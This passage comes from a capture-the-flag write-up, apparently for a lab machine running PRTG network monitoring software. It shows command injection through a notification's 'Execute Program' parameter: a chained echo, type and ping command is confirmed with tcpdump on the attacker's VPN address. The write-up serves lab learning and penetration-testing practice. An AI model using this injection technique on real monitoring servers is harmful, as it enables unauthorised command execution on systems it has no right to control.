 I first try to check if command execution works by making the box ping my IP. I setup my sniffer:

```
➜  Netmon tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

The command below tells the box to write on the directory C:\Users\Public\ and name it test.txt. Then it will read the file we created, and then execute the next command after that(since it was able to execute the command before it). My IP when I was re-solving this box is used below.

```
echo huhu > C:\Users\Public\test.txt; type C:\Users\Public\test.txt ; ping -n 5 10.10.13.148
```

I enable Execute Program and put the command above on the Parameter field of the “Email and push notification to admin” notification(you can choose any, as long as you map it to the correct alert), which is executed and written on the .ps1 file when we trigger the notification.

![](img/535973ec2649514ff79a5969afd8899c.png)

I triggered the Ping alert by clicking “check now”.

![](img/95c18c7a5f8af53b8f0ae2ac25677978.png)

